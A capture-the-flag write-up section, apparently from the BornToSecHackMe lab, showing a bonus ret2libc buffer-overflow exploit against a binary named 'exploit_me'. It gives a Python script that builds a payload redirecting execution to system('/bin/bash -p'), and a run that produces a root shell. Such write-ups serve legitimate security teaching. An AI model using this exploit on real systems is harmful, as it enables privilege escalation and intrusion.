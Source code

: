 ### Bonus Ret2Libc

This method requires the access to the user zaz which steps are described in the writeup1.

There's another way to exploit the `exploit_me` which is to point to a libc function (eg. system) instead of pointing to a shellcode.

In order to do that, we first need to find 3 addresses :
- The address of a libc function that we want to call, we'll choose `system`.
- The address of `exit` function which is kind of optional, you can a bad address but it'll be noticed because the exit status will indicate that the program has segfaulted after leaving system.
- The address of our argument which is a string containing "/bin/bash -p".

To retrieve `system` and `exit`, we'll just use gdb and print the addresses. Now, for the address of our argument we could send it by adding another command argument since it only checks that `argc > 1`. However, we're lazy and we'll just send it at the end of our payload and send the address of our buffer + 140 + 4 * 3.

So our payload should look like this :
```
PADDING + ADDR_SYSTEM + ADDR_EXIT + ADDR_COMMAND + COMMAND
```

The script that allows us to generate the payload :
```py
import struct

system_addr = struct.pack('<I', 0xb7e6b060)
exit_addr = struct.pack('<I', 0xb7e5ebe0)
libc_addr = struct.pack('<I', 0xb7e2c000)
command_addr = struct.pack('<I', 0xbffff640 + 140 + 4 * 3)
command = b"/bin/bash -p \x00"
payload = 140 * b"\x90" + system_addr + exit_addr + command_addr + command
with open("payload", "wb") as f :
    f.write(payload)
```

The command same as before :
```text
zaz@BornToSecHackMe:~$ ./exploit_me "$(cat payload)"
��������������������������������������������������������������������������������������������������������������������������������������������`���������/bin/bash -p 
bash-4.2# exit
```